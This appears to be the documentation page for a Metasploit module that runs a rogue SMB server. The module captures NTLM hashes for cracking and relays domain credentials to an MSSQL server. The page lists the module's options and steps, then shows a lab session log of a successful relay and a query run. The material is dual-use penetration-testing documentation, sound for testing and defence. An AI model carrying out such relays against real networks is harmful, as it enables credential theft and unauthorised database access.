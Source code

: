 ## Vulnerable Application

This module supports running an SMB server which validates credentials, and then attempts to execute a relay attack
against an MSSQL server on the configured RHOSTS hosts.

If the relay succeeds, an MSSQL session to the target will be created. This can be used by any modules that support
MSSQL sessions, like `admin/mssql/mssql_enum`. The session can also be used to run arbitrary queries.

Supports SMBv2, SMBv3, and captures NTLMv1 as well as NTLMv2 hashes.
SMBv1 is not supported - please see https://github.com/rapid7/metasploit-framework/issues/16261

## Verification Steps
Example steps in this format (is also in the PR):

1. Install MSSQL Server on a Domain Joined host. Ensure that Windows Authentication mode is enabled.
2. Start msfconsole, and use the module.
3. Set `RHOSTS` to target the MSSQL server.
4. On another host, use `net use` to trigger an authentication attempt to metasploit that can be relayed to the target.

## Options

### RHOSTS

Target address range or CIDR identifier to relay to.

### CAINPWFILE

A file to store Cain & Abel formatted captured hashes in. Only supports NTLMv1 Hashes.

### JOHNPWFILE

A file to store John the Ripper formatted hashes in. NTLMv1 and NTLMv2 hashes
will be stored in separate files.
I.E. the filename john will produce two files, `john_netntlm` and `john_netntlmv2`.

### RELAY_TIMEOUT

Seconds that the relay socket will wait for a response after the client has
initiated communication.

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### MSSQL Server 2019

```
[*] Auxiliary module running as background job 0.
[*] SMB Server is running. Listening on 0.0.0.0:445
[*] Server started.
msf auxiliary(server/relay/smb_to_mssql) > 
[*] New request from 192.168.159.10
[*] Received request for MSFLAB\smcintyre
[*] Relaying to next target mssql://192.168.159.166:1433
[+] Identity: MSFLAB\smcintyre - Successfully authenticated against relay target mssql://192.168.159.166:1433
[+] Relay succeeded
[*] MSSQL session 1 opened (192.168.159.128:35967 -> 192.168.159.166:1433) at 2025-10-21 09:33:19 -0400
[*] Received request for MSFLAB\smcintyre
[*] Identity: MSFLAB\smcintyre - All targets relayed to
[*] New request from 192.168.159.10
[*] Received request for MSFLAB\smcintyre
[*] Identity: MSFLAB\smcintyre - All targets relayed to
[*] Received request for MSFLAB\smcintyre
[*] Identity: MSFLAB\smcintyre - All targets relayed to

msf auxiliary(server/relay/smb_to_mssql) > sessions -i -1
[*] Starting interaction with 1...

mssql @ 192.168.159.166:1433 (master) > query 'SELECT @@version'
Response
========

    #  NULL
    -  ----
    0  Microsoft SQL Server 2019 (RTM-GDR) (KB5065223) - 15.0.2145.1 (X64) 
    Aug 13 2025 11:31:46 
    Copyright (C) 2019 Microsoft Corporation
    Standard Edition (64-bit) on Windows Server 2025 Standard 10.0 <X64> (Build 26100: ) (Hypervisor)

mssql @ 192.168.159.166:1433 (master) > 
```